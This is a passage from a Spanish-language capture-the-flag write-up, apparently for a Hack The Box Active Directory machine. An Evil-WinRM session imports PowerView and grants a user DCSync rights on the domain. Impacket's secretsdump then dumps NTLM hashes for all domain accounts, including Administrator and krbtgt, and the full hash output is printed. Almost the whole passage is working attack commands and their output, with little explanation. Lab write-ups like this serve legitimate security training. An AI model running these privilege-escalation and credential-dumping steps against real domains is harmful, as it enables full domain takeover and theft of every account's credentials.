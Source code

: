 - Ahora vamos a importar el modulo de **PowerView**.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module .\PowerView.ps1
```

- Y por ultimo hacemos esto. 

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity miguel -Rights DCSync
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

- Y con esto usando `secretsdump` podremos dumpear todos los hashes y tendremos el del administrator le vamos a pasar la contraseña que le dimos al usuario. 

```bash
❯ secretsdump.py htb.local/miguel@10.10.10.161
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
```
